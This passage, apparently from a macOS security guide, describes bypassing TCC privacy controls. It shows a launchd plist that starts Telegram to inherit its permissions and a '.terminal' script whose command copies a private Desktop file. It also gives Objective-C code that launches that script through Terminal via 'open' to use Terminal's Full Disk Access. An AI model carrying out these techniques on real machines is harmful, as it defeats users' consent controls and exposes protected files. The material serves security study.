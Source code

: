 ```xml
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/telegram.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/telegram.log</string>
</dict>
</plist>
```

```bash
launchctl load com.telegram.launcher.plist
```

## By open invocations

It's possible to invoke **`open`** even while sandboxed

### Terminal Scripts

It's quiet common to give terminal **Full Disk Access (FDA)**, at least in computers used by tech people. And it's possible to invoke **`.terminal`** scripts using with it.

**`.terminal`** scripts are plist files such as this one with the command to execute in the **`CommandString`** key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
    <key>CommandString</key>
    <string>cp ~/Desktop/private.txt /tmp/;</string>
    <key>ProfileCurrentVersion</key>
    <real>2.0600000000000001</real>
    <key>RunCommandAsShell</key>
    <false/>
    <key>name</key>
    <string>exploit</string>
    <key>type</key>
    <string>Window Settings</string>
</dict>
</plist>
```

An application could write a terminal script in a location such as /tmp and launch it with a come such as:

```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
